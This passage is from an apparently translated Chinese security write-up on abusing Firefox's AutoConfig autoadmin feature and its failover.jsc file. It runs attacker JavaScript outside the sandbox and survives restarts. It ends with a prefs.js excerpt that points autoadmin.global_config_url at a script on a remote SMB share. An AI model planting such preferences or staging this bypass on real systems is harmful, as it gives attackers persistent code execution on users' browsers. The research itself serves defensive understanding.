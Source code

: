 [![](./img/203840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0129a62286cfb995d0.png)

2、由`autoadmin.global_config_url`引用的外部`js`首选项文件（`autoadmin`文件）并没有在`prefcalls.js`导出的沙箱中执行。该文件在下载时，文件内容会被传递给`EvaluateAdminConfigScript()`函数（参考`nsAutoConfig.cpp`、`nsAutoConfig::OnStopRequest()`）。

[![](./img/203840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t016d13b9fd5e7eb631.png)

`EvaluateAdminConfigScript()`使用先前设置的`sandboxEnabled static bool`值来执行（参考`nsJSConfigTriggers.cpp`）。

[![](./img/203840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01912d5cbe227a3568.png)

在Firefox ESR和Nightly中，`sandboxEnabled`在之前`autoconfig`文件处理过程中会被设置为`false`。因此，外部`autoadmin` `js`文件会在`autoconfigSystemSb` JavaScript上下文中执行，使得攻击者可以自由执行基于XPCOM的payload。

然而，如果希望基于`autoadmin.global_config_url`的技术正常工作，我们需要满足一个条件。Firefox在安装目录中至少应当已经有个`AutoConfig`文件，并且有个首选项文件引用了这个文件。文件内容无关紧要，在面对内部架构场景时，我们通常能满足这个条件（因为管理员很可能会将`AutoConfig`文件部署到安装目录）。

此外，当我们分析外部`autoadmin`文件的使用场景后，我们还可以找到其他入口点文件。首先，在下载完`autoadmin`文件并且该文件被成功执行后，文件内容会被拷贝到（用户配置目录的）`failover.jsc`文件中。在如下场景中，该文件会被当成`AutoConfig`文件来执行：

1、在解析下载的`autoconfig`文件时出现错误：

[![](./img/203840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01a33b372b38fdb74e.png)

2、请求远程`autoadmin`文件时失败：

[![](./img/203840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0112578b3eac7c58b1.png)

3、当网络处于离线状态，且`autoadmin.offline_failover`选项被设置为`true`时：

[![](./img/203840/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01ae2af69d15e89768.png)

这样我们就可以构造出一些绕过场景。比如在第一阶段，恶意首选项文件使用`autoadmin` URI部署到用户主机中。在首次启动时，浏览器会下载并执行恶意payload，将恶意`autoadmin`文件拷贝到`failover.jsc`。随后，攻击者可以修改攻击者服务器上的`autoadmin`文件内容，将其改为合法但无效的内容。因此，Firefox在下次重启时，会尝试获取看上去合法的`autoadmin`文件，但由于该文件内容无效，因此浏览器会转而使用恶意的`failover.jsc`，而该文件先前已被保存到配置文件夹中。

其次，`autoadmin.global_config_preference`可以直接从`prefs.js`默认文件中设置。当浏览器使用`user.js`（或其他首选项文件）时，会处理文件中的首选项集合，将这些首选项拷贝到配置文件目录下的`prefs.js`文件中。因此，我们可以直接在`prefs.js`文件中添加引用恶意`autoadmin`文件的`autoadmin.global_config_url`选项。需要注意的是，`prefs.js`文件中会按字母顺序设置各个首选项，因此我们应当将`autoadmin`选项插入正确的位置，比如：

```
// DO NOT EDIT THIS FILE.
//
// If you make changes to this file while the application is running,
// the changes will be overwritten when the application exits.
//
// To change a preference value, you can either:
// - modify it via the UI (e.g. via about:config in the browser); or
// - set it within a user.js file in your profile.
[SNIP]
user_pref("app.update.lastUpdateTime.search-engine-update-timer", 1584442362);
user_pref("app.update.lastUpdateTime.services-settings-poll-changes", 1584443219);
user_pref("app.update.lastUpdateTime.telemetry_modules_ping", 1584442320);
user_pref("app.update.lastUpdateTime.xpi-signature-verification", 1584444609);
user_pref("app.update.migrated.updateDir2.308046B0AF4A39CB", true);
user_pref("autoadmin.global_config_url", "file://///10.0.2.6\\test\\autoadmins.js");
user_pref("browser.aboutConfig.showWarning", false);
user_pref("browser.bookmarks.restore_default_bookmarks", false);
[SNIP]
```
